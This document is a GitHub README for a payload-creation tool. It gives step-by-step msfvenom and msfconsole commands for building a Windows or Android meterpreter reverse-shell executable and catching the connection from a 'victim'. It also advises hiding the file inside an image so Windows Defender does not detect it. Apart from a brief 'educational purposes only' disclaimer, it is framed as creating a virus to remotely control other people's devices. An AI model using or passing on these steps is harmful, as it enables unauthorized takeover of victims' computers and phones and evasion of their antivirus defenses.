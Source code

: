 # [+]Warning!!
--------------------------------------------------------------------------------------------
Welcome everyone

**This tool is for educational purposes only, and our goal is not to make people victims or cause any kind of danger we are not responsible for any damages due to bad use**


# [+]About
--------------------------------------------------------------------------------------------
This is a payload creation machine Tool , To make something like back door and so one to completely remote a PC or android phone Just one click on the file "exe, apk" 
and u will be able to open a session and tunnel with your victim’s device with msfcosnsole Have a good time

Good bye my friend …


![Screenshot 2022-09-19 133233](https://user-images.githubusercontent.com/88976173/191008194-2d19901e-946c-42e2-a43f-c3c28529fb77.png)


 # [+]How to Download
open you terminal as root " be careful with your path "

git clone https://github.com/Essam0o/Payload-Injection.git


 # [+]How to Run
--------------------------------------------------------------------------------------------
After preparing your payload via Payload-injection tool you can open msfconsole and lunch your paylaod which has been created open your terminal as a root in any path and type

**sudo su**

**msfvenom -p windows/meterpreter/reverse_tcp -f exe lhost = your ip lport = 4444 > FileName .exe**
![Screenshot 2022-09-19 002119](https://user-images.githubusercontent.com/88976173/191006795-be110c62-ee54-48b6-9352-a4f94b6478e8.jpg)



if you build up a paylaod for android you will change the windows to android and so on 

u can get your ip from terminal type **sudo ifconfig**

Then wait to complete download the file and check your path on your os
  
**msfconsole**

wiat proccess// 


**use exploit/multi/handler**

**set payload windows/meterpreter/reverse_tcp**


**set lhost   enter your ip**

**set lport 4444**

**run**

![Screenshot 2022-09-19 132613](https://user-images.githubusercontent.com/88976173/191007284-d7a7fca5-e6b4-46f6-99bd-365356226f0a.png)




 HERE WE ARE DONE OF CREATING A VIRUS ALL U NEED TO WAIT THE VICTIM TO CLICK ON THE APK  OR EXE FILE
 
 Tip 
 
 
 you can merge your exe file in a photo to prevent windows defenter detect the virus , or merge it by the way you like it


~Happy Hacking-Good luck
